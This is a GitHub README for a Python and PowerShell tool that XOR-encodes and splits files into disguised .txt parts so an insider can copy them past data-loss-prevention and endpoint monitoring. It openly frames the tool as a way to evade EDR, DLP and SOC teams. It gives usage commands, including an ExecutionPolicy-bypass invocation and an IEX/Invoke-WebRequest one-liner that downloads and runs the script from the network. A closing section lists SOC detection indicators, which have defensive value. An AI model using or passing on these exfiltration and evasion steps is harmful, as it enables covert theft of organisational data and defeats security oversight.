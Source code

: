 # Data Exfiltration

## Overview
Data Exfiltration is a **Python and PowerShell** tool that allows you to **convert any file** (e.g., `.exe`, `.pdf`, `.jpg`, `.xlsx`) into disguised `.txt` files. The encoded files can be safely stored and later restored to their original format. This helps in **evading detection** from EDR, DLP, and SOC teams.

## Purpose
Many organizations use **Data Loss Prevention (DLP) solutions** to block direct file uploads. However, **copy-pasting text is often allowed**. This tool enables an **insider threat** to covertly exfiltrate data by:
1. **Converting files to text-based `.txt` parts**.
2. **Copy-pasting the disguised text** to another system (e.g., email, chat, cloud storage).
3. **Downloading the parts and restoring the original file** without detection.


## Features
✅ Splits files into multiple parts (`file_part1.txt`, `file_part2.txt`, etc.)

✅ Uses **XOR encryption** with a random key for stealth encoding

✅ **No Base64** (avoiding security tool detection)

✅ Restores files exactly as they were (including executables)

✅ **No file deletion** (Original files remain intact)

✅ Works on **Windows/Linux/macOS**

---

## 🔥 Python Version Usage

### **1️⃣ Install Requirements**
Python 3 is required, but no external dependencies.

### **2️⃣ Convert Files to `.txt`**
```sh
python Data-Exfiltration.py /path/to/folder
```
- Example: 
  ```sh
  python Data-Exfiltration.py Data_imp
  ```
- This will convert all files in `Data_imp/` into `.txt` parts.

### **3️⃣ Restore Original Files**
```sh
python Data-Exfiltration.py /path/to/folder --decode
```
- Example:
  ```sh
  python Data-Exfiltration.py Data_imp --decode
  ```
- This will merge `.txt` parts and restore the original files.

---

## 💻 PowerShell Version Usage

### **1️⃣ Convert Files to `.txt`**
```powershell
powershell -ExecutionPolicy Bypass -File Data-Exfiltration.ps1 -folder "C:\Users\Data\Data_imp"
```

### **2️⃣ Restore Files from `.txt` Parts**
```powershell
powershell -ExecutionPolicy Bypass -File Data-Exfiltration.ps1 -folder "C:\Users\Data\Data_imp" -decode
```

### **Alternative (Without Saving Script Locally)**
```powershell
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/MrHarshvardhan/Data-Exfiltration/refs/heads/main/Data-Exfiltration.ps1" -UseBasicParsing).Content
Encode-Files -folder "C:\Users\Data\Data_imp"
```

---

## 🚨 Detection Methods by SOC Teams
Although this tool tries to avoid detection, SOC teams can still identify exfiltration attempts through:

1. **Unusual Text File Activity** 📂
   - Large `.txt` files appearing suddenly with high entropy.
   - `.txt` files created with unexpected file sizes (matching original files).

2. **Suspicious File Splitting** 🛑
   - Files broken into parts (`_part1.txt`, `_part2.txt`) detected in **endpoint logs**.
   - Frequent read/write operations on `.txt` files in a short time span.

3. **Behavioral Analysis** 🔍
   - Use of **XOR encoding** flagged by advanced EDR/AV solutions.
   - Abnormal PowerShell execution, especially `Invoke-WebRequest` usage.
   - Processes interacting with `.txt` files in directories not normally used for text-based storage.

4. **Network Traffic Anomalies** 🌐
   - **Outbound `.txt` uploads** with encrypted content to unknown domains.
   - Detection of encoded **XOR patterns in traffic** (if not using HTTPS or encrypted channels).

5. **SIEM & Endpoint Alerts** ⚠️
   - Unusual PowerShell execution (Event ID 4104 - Script Block Logging).
   - File access anomalies via Sysmon (Event ID 11 - File Creation).

---

## ⚠️ Disclaimer
This tool is for **educational and red team research** purposes only. The author is not responsible for any misuse.

🚀 **Happy Hacking!**

